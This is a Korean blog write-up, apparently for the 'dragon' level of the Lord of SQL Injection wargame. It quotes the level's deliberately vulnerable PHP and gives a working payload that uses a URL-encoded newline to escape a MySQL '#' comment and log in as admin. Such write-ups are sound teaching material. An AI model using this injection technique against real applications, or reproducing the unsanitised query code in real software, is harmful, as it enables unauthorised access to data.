 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - dragon 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다음 문제는 `dragon`이다.  

메인 이미지가 `용이 산다` 웹툰의 `마리`다.  

대존귀탱 ㅠㅠ  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------------------------
query : select id from prob_dragon where id='guest'# and pw=''
-------------------------------------------------------------------------------------

Hello guest
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
```

이번 문제에서는 쿼리문 중간에 `#`이 들어가 있다.  

`#`은 `MySQL`에서 주석을 의미한다.  

처음에는 이 주석을 어떻게 우회할 수 있지 않을까 생각했다.  

그래서 이것저것 찾다가 `executabl comments`를 찾게 되었다.  

`MySQL` 에서 주석이 여러개가 있는데, 그 중에 `/* */`이 있다.  

이 때, `/*! QUERY */` 이런식으로 안에 느낌표를 넣어주면, 해당 쿼리를 실행할 수 있다고 한다.  

쨌든 이건 문제 풀이와는 상관 없다.  

주석을 우회할 수 없을까 계속 고민하다가 서버에서 `MySQL`을 실행시키고 쿼리를 여러개 테스트 해 보았다.  

```
mysql> select idx from board where idx=50# or idx=/*!####51*/;
    -> ;

mysql> select 1 from board where idx=50# or #idx=51;
    -> ;
```

이런 형태로 테스트를 해 보았는데, 한가지 특징이 나타났다.  

잘 보면, `#` 이후는 다 주석처리가 됬다는 사실을 알 수 있다.  

때문에 쿼리가 완성이 되지 않았기 때문에 다음 줄을 입력하라고 떴고, 거기에 `;`을 입력 해 쿼리를 완성시켜주었더니 정상적으로 쿼리가 실행되었다.  

즉, `#`은 `한 줄짜리 주석`이며, `MySQL`은 `여러 줄에 걸쳐` 쿼리를 작성할 수 있다.  

이번에는 이 점을 이용해서 문제를 풀었다.  

현재 쿼리는 다음과 같다.  

```
select id from prob_dragon where id='guest'# and pw=''
```

그런데 만약 여기서 `pw`에 `%0a`를 입력 해 개행한다면 다음과 같이 구성 될 것이다.  

```
select id from prob_dragon where id='guest'# and pw='
'
```

이 때, 다음 줄은 주석이 아니므로 정상적으로 쿼리를 이어서 실행시킬 수 있게 된다.  

```
select id from prob_dragon where id='guest'# and pw='
and pw=1 or id='admin'
```

따라서 위와 같이 쿼리를 구성한다면 다음 줄의 쿼리를 실행시킬 수 있다.  

이를 위해 `URL`에 아래와 같이 입력 해 문제를 풀 수 있었다.  

```
?pw=%0a and pw=1 or id='admin
```

```php
--------------------------------------------------------------------------------------------------------------------
query : select id from prob_dragon where id='guest'# and pw=' and pw=1 or id='admin'
--------------------------------------------------------------------------------------------------------------------

Hello admin
DRAGON Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
```

`DRAGON Clear!!`
